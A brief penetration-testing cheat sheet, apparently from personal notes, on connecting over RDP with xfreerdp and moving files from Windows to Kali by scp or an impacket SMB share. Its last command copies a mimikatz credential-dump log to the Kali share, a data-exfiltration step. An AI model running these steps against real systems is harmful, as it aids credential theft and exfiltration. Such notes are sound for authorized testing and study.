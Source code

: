 # Using RDP
```
xfreerdp /u:{username} /p:{password} /v:{ip of device}

if need to transfer files, xfreerdp /u:{username} /p:{password} /v:{ip of device} +drive:testfolder,/Documents
```
## Transferring Files from Windows to Kali
```
scp [filename] (user)@$ip:[home directory of user]
```
OR
Through SMB
On Kali:
```
impacket-smbserver test . -smb2support  -username kali -password kali
```
On Windows:
```
net use m: \\Kali_IP\test /user:kali kali
copy mimikatz.log m:\
```
